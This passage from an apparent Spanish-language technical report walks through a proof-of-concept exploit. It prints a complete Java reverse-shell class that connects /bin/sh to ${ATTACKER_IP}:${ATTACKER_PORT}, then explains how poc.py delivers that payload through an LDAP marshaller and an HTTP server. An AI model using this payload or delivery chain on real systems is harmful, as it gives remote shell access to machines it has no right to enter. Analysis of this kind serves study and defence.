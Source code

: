 \documentclass[../main.tex]{subfiles}
\begin{document}
El código de la clase se muestra a continuación:
\begin{codigo}{java}
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String host="${ATTACKER_IP}";
        int port=${ATTACKER_PORT};
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
\end{codigo}

Después de generar el código Java con los valores correctos de las variables, el propio script \it{poc.py} compila el fichero generando el bytecode correspondiente. Éste supondrá el \it{payload} en el ataque.

\subsubsection{Funcionamiento del script \it{poc.py}}

Tras generar el \it{payload} para el ataque, el script \it{poc.py} lanza dos servicios en la máquina en la que se ejecuta: un \it{marshaller} del formato LDAP y un servidor HTTP.

El \it{marshaller} (fichero \it{target/marshalsec-0.0.3-SNAPSHOT-all.jar}) es un codificador y decodificador que implementa el protocolo LDAP, pero que simplemente redirige las peticiones que le llegan al servidor HTTP, de tal forma que éste se encarga de que el formato con el que el solicitante recibe la respuesta sea indistinguible al que se obtendría con un servidor LDAP real. Para que funcione correctamente, en el proyecto se indica que la versión de Java debe ser la \it{8u20} \cite{exploit-jdk}. En realidad el \it{marshaller} se corresponde con un proyecto independiente que puede encontrarse aquí \cite{exploit-marshaller}.
\end{document}
